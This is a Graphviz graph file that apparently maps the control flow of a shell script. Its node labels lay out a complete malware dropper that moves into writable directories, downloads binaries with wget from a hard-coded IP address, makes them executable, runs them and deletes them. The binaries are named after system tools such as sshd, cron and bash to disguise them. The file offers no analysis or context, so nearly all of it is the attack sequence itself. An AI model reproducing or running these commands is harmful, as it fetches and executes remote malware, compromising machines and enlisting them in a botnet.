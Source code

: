 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://46.166.173.101/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://46.166.173.101/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://46.166.173.101/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://46.166.173.101/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://46.166.173.101/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://46.166.173.101/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://46.166.173.101/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://46.166.173.101/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://46.166.173.101/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://46.166.173.101/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 177 [label=";,"];
}
